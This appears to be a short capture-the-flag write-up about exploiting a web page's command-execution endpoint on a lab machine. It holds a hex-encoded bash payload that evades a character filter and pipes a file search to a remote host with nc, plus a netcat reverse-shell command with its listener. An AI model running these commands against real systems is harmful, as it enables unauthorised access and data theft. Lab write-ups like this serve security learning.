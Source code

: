 A simple html web page
## Discovery

Actually, by discovering the endpoint from [[PORT 139]], it was quite simple to see that a bash command could be provided. Then the only thing that was left was to simply see how to get a shell.

This actually took me a little bit of time as i was unaware that actually there are more programs out there than netcat that can be used to get a reverse shell, and that actually, the host had another similar tool called ncat that can be used quite easily, since the page was filtering out ; | &, which are used for most shells. I was trying things of the sort:


```
/bin/bash -c "$(echo -e '\x66\x69\x6e\x64\x20\x2f\x20\x2d\x6e\x61\x6d\x65\x20\x2a\x75\x73\x65\x72\x2a\x20\x2d\x74\x79\x70\x65\x20\x66\x20\x32\x3e\x2f\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x7c\x20\x6e\x63\x20\x31\x30\x2e\x31\x30\x2e\x35\x37\x2e\x32\x33\x20\x36\x36\x36\x36\x20')"

```

When this was actually quite simpler, i only had to do:

```bash
victim$ nc 10.10.244.42 6666 -e /bin/bash
host$ netcat -lvnp 6666
```

Which was provided with the following web page https://www.grobinson.me/reverse-shells-even-without-nc-on-linux/.

Now we can go to our little [[remote shell]]


